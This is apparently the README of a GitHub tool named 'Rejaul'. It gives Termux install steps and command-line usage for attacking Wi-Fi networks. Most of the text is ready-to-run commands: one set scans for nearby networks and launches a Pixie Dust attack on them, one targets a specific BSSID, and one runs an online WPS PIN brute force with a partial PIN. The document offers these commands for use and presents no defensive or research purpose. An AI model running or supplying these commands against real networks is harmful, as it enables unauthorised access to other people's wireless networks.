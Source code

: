 # Rejaul

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

git clone https://github.com/Rejaul/Rejaul.git

$ cd Rejaul

$ chmod +x *

$ python Rejaul.py -h

plz' go to HOME

Example : sudo python Rejaul/Rejaul.py -i wlan0 -K

Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python Rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID:

sudo python Rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python Rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

